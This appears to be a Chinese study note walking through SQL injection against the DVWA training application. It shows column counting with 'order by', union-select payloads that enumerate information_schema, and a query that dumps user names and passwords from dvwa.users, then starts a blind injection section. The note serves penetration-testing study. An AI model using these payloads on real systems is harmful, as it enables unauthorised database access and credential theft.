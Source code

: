 改一下代码显示sql语句。

```/var/www/html/www1/vulnerabilities/sqli/source```在这个文件下有源码在+一条```echo $query```![1559638360170](assets/1559638360170.png)

##### 堆叠注入

![1559638482214](assets/1559638482214.png)

不知道为何会报错把这条语句复制下来在mysql命令行输入没有报错正常显示

![1559640619722](assets/1559640619722.png)
##### union注入

第一步先进行字段数量判断```order by xx```

![1559640910854](assets/1559640910854.png)

```order by 3```的时候出现了报错说明为2个字段代码中也能体现，但是如果是渗透测试是看不见数据库命令的只能通过这个去尝试

![1559640986613](assets/1559640986613.png)

得出2个字段后进行union注入```id=1'union+select+1,2%23```

![1559641067490](assets/1559641067490.png)

1和2都显示了说明都可以进行替换。

![1559641595196](assets/1559641595196.png)

```?id=1'union+select+table_schema,table_name from information_schema.tables%23```把所有数据库的库和表都对应的显示出来了。寻找需要的表

![1559642200199](assets/1559642200199.png)

![1559642236485](assets/1559642236485.png)

再去查字段```?id=1'union+select+column_name,2 from information_schema.columns%23```到最后找到属于users表的字段

first_name,password再去构造查询语句



![1559642392277](assets/1559642392277.png)

```?id=1'union+select+first_name,password from dvwa.users```查询到要拿到的内容了想想有没有简单的方法。

![1559642467988](assets/1559642467988.png)

直接去查询他的表对应的字段就简单了

```?id=1'union+select+table_name,column_name from information_schema.columns%23```

所以只需要记住information_schema库下的columns表中的字段就可以了库是table_schema,表是table_name,字段是column_name

![1559642699678](assets/1559642699678.png)
#### SQL Injection(Bind)

盲注即为不回显内容需要进行尝试根据页面返回的内容是否正常来进行判断

![1559643423663](assets/1559643423663.png)

![1559643479549](assets/1559643479549.png)

说明存在盲注

![1559643490081](assets/1559643490081.png)
```